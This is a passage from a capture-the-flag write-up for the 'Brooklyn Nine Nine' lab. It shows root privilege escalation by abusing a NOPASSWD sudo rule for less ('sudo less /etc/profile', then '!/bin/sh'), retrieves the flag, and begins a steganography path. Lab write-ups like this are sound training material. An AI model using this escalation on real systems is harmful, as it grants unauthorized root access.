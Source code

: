 Congratulations! We have our user flag.

## Privilege escalation 1st way (User Jake).
To list what commands the current user can perform with sudo:
```
sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
In this case, this command `less` is allowed to be executed by sudo on behalf of user `jake`, since he is a part of ALL.

Let's go to [gtfobins](https://gtfobins.github.io/gtfobins/less/#sudo). We are trying to exploit vulnerabilities with `sudo` configuration. The tools like `less` are binaries that can execute commands as a new process. This process will inherit the privileges of parent's process which is `less` in this scenario. So, we are spawning a shell, and in this scenatio, it will get spawned with root privilege:
```
sudo less /etc/profile
```
Now add this line to execute this command (You can click `i` to get to editing mode in `less`):
```
!/bin/sh
```
Press `Enter`

We have spawned a shell. Let's check who are we.
```
# id
uid=0(root) gid=0(root) groups=0(root)
```
Great! We are root user. Now, let's find the flag. Perhaps, the flag will be in a file `root.txt`, since the user flag was in the file `user.txt`

```
# find / -name root.txt
/root/root.txt
```
Let's see the output of the file:
```
# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <intentionally_removed_from_writeup>

Enjoy!!
```

Congratulation! We obtained two flags.

# Path 2
# Steganography
When we open the page we can see the huge [banner with all Brooklyn99 main heroes](./brooklyn99_banner.jpg). Let's use "Inspect element". There is a hint in the comment that we should use steganography to find something hidden in the image. For that let's first of all `wget http://10.10.103.153/brooklyn99.jpg`. Now we have the JPEG file.
